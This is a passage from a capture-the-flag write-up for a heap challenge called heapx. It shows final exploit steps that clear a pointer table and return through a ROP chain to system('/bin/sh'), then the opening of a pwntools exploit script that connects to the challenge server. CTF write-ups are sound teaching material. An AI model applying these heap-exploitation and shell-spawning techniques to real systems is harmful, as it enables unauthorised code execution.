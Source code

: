 #### Step 4: Clear All Entries

```python
# Clear 16 pointers (8 bytes each) + 16 sizes (4 bytes each)
# Total: 16 * (8 + 8) = 256 bytes = 32 qwords
payload = p64(0) * 32
write(chunk_P, 0, payload)
log.success("ptr_table cleared!")
```

#### Step 5: Exit and Get Shell

```python
p.sendline(b'exit')
p.interactive()  # Shell!
```

When `main()` returns:
1. Exit handler tries to free all ptr_table entries (all NULL now - safe)
2. Return address pops from stack
3. ROP chain executes
4. `system("/bin/sh")` runs
5. Shell spawned!

---

## Complete Exploit

```python
#!/usr/bin/env python3
from pwn import *

# Binary setup
elf = ELF("./heapx_patched")
libc = ELF("./libc.so.6")
context.binary = elf
context.log_level = 'info'

# Chunk counter
counter = -1

# Helper functions
def create(size):
    global counter
    counter += 1
    p.sendline(f'new {size}'.encode())
    p.recv()
    return counter

def read(index):
    p.sendline(f'read {index}'.encode())

def write(index, offset, data):
    p.sendline(f'write {index}'.encode())
    p.sendline(str(offset).encode())
    p.sendlineafter(b'data:', data)

def delete(index):
    p.sendline(f'delete {index}'.encode())
    p.recv()

# Connect to remote
p = remote('chal.sunshinectf.games', 25004)
# p = process('./heapx_patched')

log.info("Stage 1: Heap leak")
```